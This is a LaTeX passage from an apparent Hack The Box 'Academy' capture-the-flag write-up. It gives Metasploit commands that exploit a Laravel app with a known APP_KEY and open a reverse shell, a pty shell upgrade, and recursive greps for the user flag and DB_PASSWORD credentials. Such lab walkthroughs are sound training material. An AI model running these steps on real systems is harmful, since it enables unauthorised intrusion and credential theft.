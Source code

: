 \documentclass[../main.tex]{subfiles}
\begin{document}
\begin{lstlisting}
sudo msfdb init && msfconsole
metasploit - search laravel - use 0
    set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    set RHOSTS 10.10.10.215
    set VHOST dev-staging-01.academy.htb
    set LHOST tun0 (You will get the IP from the VPN)
    show options
exploit 
\end{lstlisting}
\includegraphics[width=\linewidth]{images/Robbe/Academy_foothold1.png}
This exploit will open a reverse shell on our HTB target. This shell is a python shell which is not as easy as a bash shell for me. To change this shell we use the following command:
\begin{lstlisting}
python3 -c 'import pty;pty.spawn("/bin/bash")'
\end{lstlisting} 

\subsection{User Flag}
The first thing I did when I got into this machine was to get an overview of all the different users in the target. The first command below is to see all the users. After that we're gonna see which user has the user.txt file. We can look for this file with a recursive grep.
\begin{lstlisting}
ls /home
cd /home
grep -r user.txt
\end{lstlisting} 
As visible on the picture below, user cry0l1t3 has the user flag.
\begin{center}
\includegraphics[width=0.7\linewidth]{images/Robbe/Academy_user1.png}
\end{center}
Now that we know who has the user flag, we go back to the entry folder of the machine. After that we do a recursive grep on the word \textbf{DB\_PASSWORD}. I came to this lead after looking deeper into the dev-staging subpage. There I found that all users logged in a database, so looking for the database password is quite obvious.
\end{document}
